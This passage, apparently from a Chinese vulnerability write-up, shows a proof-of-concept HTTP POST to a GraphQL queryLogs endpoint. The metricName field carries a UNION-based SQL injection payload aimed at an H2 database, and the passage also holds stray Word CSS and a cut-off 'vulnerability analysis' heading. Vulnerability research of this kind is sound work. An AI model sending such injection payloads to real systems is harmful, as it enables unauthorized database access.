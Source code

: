 ```
color:blue;
}
span.msoDel{
mso-style-type:export-only;
mso-style-name:"";
text-decoration:line-through;
color:red;
}
@page{mso-page-border-surround-header:no;
	mso-page-border-surround-footer:no;}@page Section0{
}
div.Section0{page:Section0;}
POST /graphql HTTP/1.1
Host: 127.0.0.1:8080
Content-Type: application/json;charset=utf-8
Content-Length: 313
Connection: close
 
{
    "query":"query queryLogs($condition: LogQueryCondition) {
  queryLogs(condition: $condition) {
    total
    logs {
      serviceId
      serviceName
      isError
      content
    }
  }
}
",
    "variables":{
        "condition":{
            "metricName":"INFORMATION_SCHEMA.USERS union all select h2version())a where 1=? or 1=? or 1=? --",
                    "endpointId":"1",
                    "traceId":"1",
                    "state":"ALL",
                    "stateCode":"1",
            "paging":{
                "pageSize":10
            }
        }
    }
}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5icW96HKeciarvtV9O68M8GQz3ibIvJXSCibia9bXaLgwomA92dRpw35iang7Hibp9sA7ewAVesTNva3lEmEJxeFC9JTA/640?wx_fmt=png&from=appmsg "")  
  
0x02.3 漏洞分析  
  